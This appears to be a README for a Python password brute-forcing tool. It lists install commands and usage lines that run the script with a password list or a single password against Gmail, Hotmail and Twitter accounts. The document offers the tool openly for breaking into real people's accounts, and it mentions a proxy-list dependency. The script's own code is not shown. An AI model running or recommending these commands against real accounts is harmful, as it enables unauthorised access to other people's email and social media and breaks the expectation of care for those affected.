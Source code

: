 # Brute_Force
![alt text](https://1.top4top.net/p_128839jbv1.png)

# install :
```bash
pip install proxylist

pip install mechanize
```


Usage:

# Bruteforce Gmail 
```bash
python3 Brute_Force.py -g Account@gmail.com -l File_list

python3 Brute_Force.py -g Account@gmail.com -p Password_Single
```


# Bruteforce Hotmail
```bash
python3 Brute_Force.py -t Account@hotmail.com -l File_list

python3 Brute_Force.py -t Account@hotmail.com -p Password_Single
```


# Bruteforce Twitter

```bash
python3 Brute_Force.py -T Account_Twitter -l File_list
```
